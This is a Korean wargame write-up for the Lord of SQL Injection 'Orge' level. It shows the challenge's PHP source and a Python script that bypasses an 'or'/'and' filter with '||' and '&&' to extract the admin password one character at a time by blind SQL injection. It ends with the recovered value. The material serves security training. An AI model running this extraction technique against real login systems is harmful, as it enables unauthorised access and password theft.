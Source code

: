 # Lord of SQL Injection No.7 Orge

Orge 문제는 `or`, `and`를 우회하여 `Blind SQL Injection`을 하도록 유도한 문제이다.

## 소스 코드
```php
<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe"); 
  $query = "select id from prob_orge where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
   
  $_GET[pw] = addslashes($_GET[pw]); 
  $query = "select pw from prob_orge where id='admin' and pw='{$_GET[pw]}'"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("orge"); 
  highlight_file(__FILE__); 
?>
```

```php
if(preg_match('/or|and/i', $_GET[pw])) exit("HeHe");
```

이전 문제인 `Darkelf` 문제와 같이 `preg_match` 함수에서 `or`, `and`를 찾으면 `HeHe`를 출력하고 문제 풀이에 실패하게 된다.

`No.4 orc` 문제의 소스 코드와 비교하면 위의 코드만 추가되고 모두 같은 형식임을 알 수 있다.

#### los no.4 orc 되짚어보기
* [los_writeup - No.4 orc](https://github.com/JaehunYoon/Lord_of_SQL_Injection_Writeup/blob/master/los_no4_orc.md)

#### 문제 풀이 조건
`or`, `and`를 사용하지 않으면서 `$_result`의 `pw`값과 `$_GET` 방식으로 입력받은 `pw`가 일치하면 문제 풀이에 성공한다.

## Solution

```python
import urllib.request   # python 라이브러리에 내장된 urllib.request 를 불러온다.
from urllib.parse import quote

result = ""
pwlen = 0

for i in range(1,10):
    url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
    add_url = "' || length(pw)={} -- ;".format(i)
    print("Searching Password Length.. [{}]".format(i))
    add_url = quote(add_url)
    new_url = url + add_url
    re = urllib.request.Request(new_url)
    re.add_header("User-Agent","Mozilla/5.0")
    re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")
    response = urllib.request.urlopen(re)

    if str(response.read()).find("Hello admin") != -1:
        pwlen = i
        print("Found length!! => {}".format(pwlen))
        break

for i in range(1,pwlen+1):
    for j in range(ord('0'),ord('z')):
        url = "http://los.eagle-jump.org/orge_40d2b61f694f72448be9c97d1cea2480.php?pw="
        add_url = "' || id='admin' && substr(pw,1,{})='{}' -- ;".format(str(i), result+chr(j))
        print("Searching.. - {0}{1}".format(url, add_url))
        add_url = quote(add_url)
        new_url = url + add_url
        re = urllib.request.Request(new_url)

        re.add_header("User-Agent","Mozilla/5.0")
        re.add_header("Cookie", "PHPSESSID=6d7n06fn55kjoc4fas5vuh24j4")

        response = urllib.request.urlopen(re)

        if str(response.read()).find("Hello admin") != -1:
            result += chr(j).lower()
            print("Found it!! => " + result)
            break

print("Finished Searching.")
print("Password : " + result)
```

(no.4에서 사용했던 python 코드는 `urllib.request.urlopen`에 사용한 변수를 `req`라고 지정했었다. 현재 코드부터는 `req`를 `response`로 바꾸었다.)

```python
for i in range(1,10):
...
```
위의 첫 `for`문에서 DB에 있는 `pw`값의 길이를 찾는다.
`no.4 orc` 에서는 일일이 `length` 함수를 URL에 직접 대입해가며 찾아갔는데, 이 후에는 문제의 `pw` 길이가 항상 8이 아닐 수도 있다는 가정하에 코드를 통해 `pw` 길이를 찾도록 구현하였다.

`"length(pw)={}".format(i)` 를 통해 `pw` 길이가 일치하면 `Hello admin`을 출력하기 때문에 이를 `find` 함수로 찾게 되면 `pwlen`에 그 값을 저장하여 다음 `for`문을 진행하도록 하였다.

`for`문이 진행되면 `pwlen`에는 8이 들어가게 된다.
즉, 우리가 찾아야 할 `pw`의 길이는 8이라는 것을 알 수 있다.

`pw`의 길이를 찾고 난 후에는 `pw` 값을 찾기 위한 이중 `for`문이 실행된다.
코드는 `no.4 orc`와 유사하며 `add_url`에 삽입된 부분에 `or`와 `and`를 사용하던 부분을 `no.6 darkelf` 문제와 같이 `||`와 `&&`로 대체하여 `for`문을 진행하면 `pw` 값을 찾게 된다.

```
http://los.eagle-jump.org/orge_***.php?pw=6c864dec
```
pw=6c864dec 를 URL에 대입하면 `$_result`의 `pw` 값과 일치하기 때문에 문제 풀이에 성공하게 된다.